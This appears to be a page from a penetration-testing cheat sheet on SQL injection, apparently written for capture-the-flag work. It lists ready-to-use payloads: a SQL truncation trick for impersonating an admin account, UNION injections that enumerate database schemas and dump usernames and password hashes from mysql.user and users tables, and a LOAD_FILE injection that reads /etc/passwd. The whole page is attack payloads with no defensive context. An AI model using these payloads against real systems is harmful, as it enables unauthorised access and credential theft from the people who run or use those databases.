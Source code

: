 ### SQL Truncation Attack

> https://blog.lucideus.com/2018/03/sql-truncation-attack-2018-lucideus.html

```console
'admin@<FQDN>' = 'admin@<FQDN>++++++++++++++++++++++++++++++++++++++htb' (URL encoded instead of spaces)
```

### SQL UNION Injection

```console
foobar" UNION SELECT NULL, NULL, @@hostname, @@version; #
foobar" UNION SELECT NULL, NULL, NULL, SCHEMA_NAME FROM information_schema.SCHEMATA; #
foobar" UNION SELECT 1, user, password, authentication_string FROM mysql.user; #
```

### List Tables

```console
UNION SELECT 1,table_name,3,4 FROM information_schema.tables;
```

### List Columns

```console
UNION SELECT 1,column_name,3,4 FROM information_schema.columns;
```

### Username and Password Fields

```console
UNION SELECT 1,concat(login,':',password),3,4 FROM users;
```

### Example of UNION Injection with enumerating information_schema

```console
SELECT group_concat(table_name,":",column_name,"\n") FROM information_schema.columns where table_schema = 'employees'
```

### URL Encoded SQL Injection

```console
http://<RHOST>/database.php?id=1%20UNION%20SELECT%201,concat%28table_name,%27:%27,%20column_name%29%20FROM%20information_schema.columns
```

### File Read

```console
uname=foo' UNION ALL SELECT NULL,LOAD_FILE('/etc/passwd'),NULL,NULL,NULL,NULL; -- &password=bar
```
